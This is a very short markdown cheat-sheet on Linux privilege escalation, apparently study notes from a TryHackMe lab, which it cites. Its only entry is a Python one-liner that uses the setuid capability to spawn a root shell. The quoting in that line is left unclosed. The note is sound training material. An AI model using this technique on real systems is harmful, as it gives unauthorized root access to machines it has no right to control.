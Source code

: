 # Linux Privesc


## Capabilties
- Python
```bash
./python -c 'import os; os.setuid(0); os.system("/bin/sh")
```


## Referencias

- [Tryhackme:Linux PrivEsc Arena](https://tryhackme.com/room/linuxprivescarena)


